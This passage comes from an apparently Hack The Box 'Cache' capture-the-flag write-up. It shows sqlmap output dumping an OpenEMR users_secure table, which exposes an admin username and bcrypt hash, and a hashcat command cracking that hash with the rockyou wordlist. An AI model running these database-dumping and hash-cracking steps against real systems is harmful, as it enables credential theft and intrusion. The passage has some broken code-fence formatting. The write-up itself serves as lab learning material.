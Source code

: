```text
| rule_reminder                         |
| rule_target                           |
| shared_attributes                     |
| standardized_tables_track             |
| supported_external_dataloads          |
| syndromic_surveillance                |
| template_users                        |
| therapy_groups                        |
| therapy_groups_counselors             |
| therapy_groups_participant_attendance |
| therapy_groups_participants           |
| transactions                          |
| user_settings                         |
| users                                 |
| users_facility                        |
| users_secure                          |
| valueset                              |
| voids                                 |
| x12_partners                          |
+---------------------------------------+
```

Next I dumped the user\_secure table because that sounded quite promising. I also tried dumping other interesting sounding tables such as `notes` and `users_facility` but they were empty.

insert table data

```sql
```
[09:18:34] [INFO] fetching entries for table 'users_secure' in database 'openemr'                      
Database: openemr
Table: users_secure
[1 entry]
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| id   | salt                           | username      | password                                                     | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
```
```

The table contained information about a `openemr_admin` user, including a bcrypt hashed password. I loaded the hash into hashcat and it cracked almost imediately.

```text
zweilos@kali:~/htb/cache/results/10.10.10.188/scans$ hashcat -m 3200 -a 0 '$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.' /home/zweilos/rockyou_utf8.txt 
hashcat (v6.0.0) starting...

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt

Host memory required for this attack: 65 MB
```